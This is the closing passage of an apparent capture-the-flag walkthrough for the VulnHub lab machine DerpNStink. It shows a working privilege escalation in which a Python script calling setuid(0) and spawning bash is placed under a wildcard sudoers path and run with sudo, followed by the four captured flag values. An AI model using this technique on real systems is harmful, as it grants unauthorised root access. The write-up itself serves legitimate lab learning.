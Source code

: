 Unbeknownst to poor Mr. Derp and Uncle Stinky, this is in fact the answer to privilege escalation.

## Privilege Escalation

Assuming that `mrderp ALL=(ALL) /home/mrderp/binaries/derpy*` is in `/etc/sudoers`, we can take the following actions to gain `root` privileges.

```
$ mkdir -p /home/mrderp/binaries
$ echo -e '#!/usr/bin/env python\nimport os\nos.setuid(0)\nos.setgid(0)\nos.system("/bin/bash")' > /home/mrderp/binaries/derpy
$ chmod +x /home/mrderp/binaries/derpy
$ sudo /home/mrderp/binaries/derpy
```

And since we already know the password to Mr. Derp's account.

![screenshot-7](/assets/images/posts/derpnstink-1-walkthrough/screenshot-7.png)

Boom.

The fourth flag is at `/root/Desktop/flag.txt`.

:dancer:

## Flags

All the captured flags. :smirk:

```
flag1(52E37291AEDF6A46D7D0BB8A6312F4F9F1AA4975C248C3F0E008CBA09D6E9166)
flag2(a7d355b26bda6bf1196ccffead0b2cf2b81f0a9de5b4876b44407f1dc07e51e6)
flag3(07f62b021771d3cf67e2e1faf18769cc5e5c119ad7d4d1847a11e11d6d5a7ecb)
flag4(49dca65f362fee401292ed7ada96f96295eab1e589c52e4e66bf4aedda715fdd)
```

[1]: https://www.vulnhub.com/entry/derpnstink-1,221/
[2]: https://twitter.com/@securekomodo
[3]: https://www.vulnhub.com

*[FQDN]: Fully Qualified Domain Name
